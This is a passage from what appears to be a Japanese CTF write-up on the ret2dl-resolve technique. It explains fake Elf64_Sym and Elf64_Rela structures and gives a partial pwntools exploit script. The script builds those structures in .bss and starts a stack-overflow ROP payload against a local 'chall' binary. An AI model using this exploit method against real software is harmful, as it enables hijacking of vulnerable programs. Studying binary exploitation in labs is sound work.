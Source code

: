 ### 偽のELf64_sym構造体を用いたputsの呼び出し
変更ポイント：
* `puts`の`.dynstr`セクション内でのオフセットを`st_name`としてセットした偽の`Elf64_sym`構造体を用意。
* `.dynsym`セクションの先頭から偽の`Elf64_sym`までのオフセットを0x18で割った値を`r_info`としてセットした偽の`ELf64_rela`構造体を用意。
* スタックに積む`reloc_arg`を、`.rela.plt`セクションから偽の`ELf64_rela`構造体までのオフセットを0x18で割った値に変更。

```python=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)
target = process("./chall")

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_got_gets = elf.got["gets"]
addr_bss = elf.bss()

# section
addr_plt_start = elf.get_section_by_name(".plt").header.sh_addr
addr_rela_plt = elf.get_section_by_name(".rela.plt").header.sh_addr
addr_dynsym = elf.get_section_by_name(".dynsym").header.sh_addr

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address 
# addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 

stack_size = 0x800
base_stage = addr_bss + stack_size

# fake rela.plt
fake_rela_offset = (base_stage + 0x10) - addr_rela_plt
fake_rela_align = 0x18 - (fake_rela_offset % 0x18)
fake_rela_offset += fake_rela_align

puts_reloc_arg = fake_rela_offset // 0x18

# fake .dynsym
fake_sym_offset = (base_stage + 0x10 + fake_rela_align + 0x18) - addr_dynsym
fake_sym_align = 0x18 - (fake_sym_offset % 0x18)
fake_sym_offset += fake_sym_align

# fake sym
fake_sym = p32(0x15)        # st_name
fake_sym += p32(0x12)       # st_info, st_other, st_shndx
fake_sym += p64(0x0)        # st_value
fake_sym += p64(0x0)        # st_size

# fake rela
fake_rela = p64(addr_got_gets)          # r_offset
fake_rela += p64((fake_sym_offset // 0x18) << 32 | 0x7)       # r_info
fake_rela += p64(0x0)                   # r_addend

print("[*] addr .plt start : 0x{:x}".format(addr_plt_start))
print("[*] addr .rela.plt start : 0x{:x}".format(addr_rela_plt))
print("[*] addr .dynsym start : 0x{:x}".format(addr_dynsym))

print("[*] addr fake puts_rela : 0x{:x}".format(base_stage + 0x10))

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
```